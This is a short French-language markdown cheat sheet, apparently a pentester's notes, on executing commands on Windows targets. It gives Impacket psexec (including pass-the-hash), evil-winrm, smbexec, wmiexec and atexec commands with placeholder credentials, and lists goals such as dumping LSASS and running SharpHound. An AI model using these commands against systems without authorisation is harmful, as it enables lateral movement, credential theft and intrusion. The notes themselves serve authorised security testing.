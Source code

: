 # Exécution de commandes

> Commandes pour réaliser de l'exécution de commandes sur une machine cible
>
> Objectifs :
>
> - exécuter des commandes sur le serveur
> - lire des fichiers internes au serveur
> - dump LSASS 
> - exécuter winPeas
> - exécuter des .exe (e.g. SharpHound pour utiliser BloodHound)



### PsExec

> Prérequis : Identifiants d'un utilisateur / hash NTLM (au moins admin local car nécessité d'écrire dans le share ADMIN$)
>

```bash
# Sur une machine client
$ impacket-psexec 'USERNAME:PASSWORD@<IP_CLIENT>'
# Hash LM vide : aad3b435b51404eeaad3b435b51404ee / Remplacer par hash LM s'il y en a un
$ impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:<HASH_NT> 'USERNAME@<IP_CLIENT>'
```



### WinRM (evil-winrm)

> Prérequis : port 5985 d'ouvert / un compte utilisateur
>
> Lorsque ce port est ouvert, possibilité d'obtenir un shell restreint via WinRM
>

```bash
$ evil-winrm -i <IP_VICT> -u <USERNAME> -p <PASSWORD>      
```



### SMBExec

> Prérequis : A creuser
>

```bash
$ python3 /usr/share/doc/python3-impacket/examples/smbexec.py '<DOMAIN.COM>/<USER>:<PASSWORD>?@<IP_CIBLE>'               
```



### WmiExec

> Prérequis : A creuser
>

```bash
$ python3 /usr/share/doc/python3-impacket/examples/wmiexec.py '<DOMAIN.COM>/<USER>:<PASSWORD>?@<IP_CIBLE>'               
```



### AtExec

> Prérequis : A creuser
>

```bash
# Commande : e.g. whoami
$ python3 /usr/share/doc/python3-impacket/examples/atexec.py '<DOMAIN.COM>/<USER>:<PASSWORD>?@<IP_CIBLE>' <COMMANDE>
```

